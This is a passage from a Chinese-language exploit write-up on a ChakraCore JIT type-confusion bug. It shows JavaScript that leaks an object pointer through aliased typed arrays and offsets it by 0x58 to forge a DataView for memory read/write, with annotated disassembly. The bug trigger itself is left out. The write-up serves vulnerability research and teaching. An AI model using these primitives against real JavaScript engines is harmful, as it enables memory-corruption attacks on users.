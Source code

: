 ```
DataView.prototype.getFloat32()
    DataView.prototype.getFloat64()
    DataView.prototype.getInt16()
    DataView.prototype.getInt32()
    DataView.prototype.getInt8()
    DataView.prototype.getUint16()
    DataView.prototype.getUint32()
    DataView.prototype.getUint8()
    DataView.prototype.setFloat32()
    DataView.prototype.setFloat64()
    DataView.prototype.setInt16()
    DataView.prototype.setInt32()
    DataView.prototype.setInt8()
    DataView.prototype.setUint16()
    DataView.prototype.setUint32()
    DataView.prototype.setUint8()
```

在这次利用中，我们的主要目的就是构造出一个能够正常读写并且不会发生crash的DataView来对内存进行操作。

```
var fake_object = new Array(0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0);
//省略漏洞触发部分
opt(()=&gt;`{`arr[0]=fake_object;`}`,arr);
```

在原漏洞中发生类型混淆，使得原来NativeFloatArray类型的arr变为VarArray类型，并且arr[0]的内容由原本的浮点数变成指向fake_object数组的指针。

而fake_object是由`new Array(0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0);`创建的，所以这里的fake_object自身也是个NativeArray对象，因此也满足这样的结构<br>[![](https://p2.ssl.qhimg.com/t019798db84c2de89dc.png)](https://p2.ssl.qhimg.com/t019798db84c2de89dc.png)

对于一个Array来说，只有segment中buffer的内容才是用户可以控制的。所以我们希望能够在buffer中伪造DataView来实现利用。

因为此时arr[0]中的指针是指向NativeArray头部的，因此需要把arr[0]中的指针加上一个偏移指向segment的buffer，对于64位的ChakraCore来说这个偏移是0x58个字节。还有需要注意的是，0x58是包含了Segment对象头部的一些域的，不是说NativeArray对象的大小就是0x58。(还有需要注意的是array对象并不一定是与segment紧邻的，只有segement较小时才是相邻的)

具体的做法是使用TypedArray取出值做+0x58的操作，这里是把Float64Array和Int32Array指向了同一个ArrayBuffer方便对一个64位数进行操作。<br>
此外，正常情况下是不能在VarArray中取一个Object的指针去做这种算数运算的，这里正是类型混淆后JIT未进行bailout导致的问题。

```
var f64 = new Float64Array(1);
var i32 = new Int32Array(f64.buffer);

f64[0] = arr[0];
//000001801D7011B4  mov         rcx,qword ptr [rax+38h]  
//000001801D7011B8  movsd       mmword ptr [rcx],xmm0  
var base_low = i32[0];
var base_high = i32[1];

i32[0] = base_low +0x58;
/*
000001801D7011F1  mov         rdi,qword ptr [rdx+38h]  
000001801D7011F5  mov         r8d,dword ptr [rdi]  
000001801D7011F8  mov         r9d,dword ptr [rdi+4]  
000001801D7011FC  mov         r10d,r8d  
000001801D7011FF  add         r10d,58h  
*/
arr[0] = f64[0];
//00001801D701209  mov         dword ptr [rdi],r10d
```
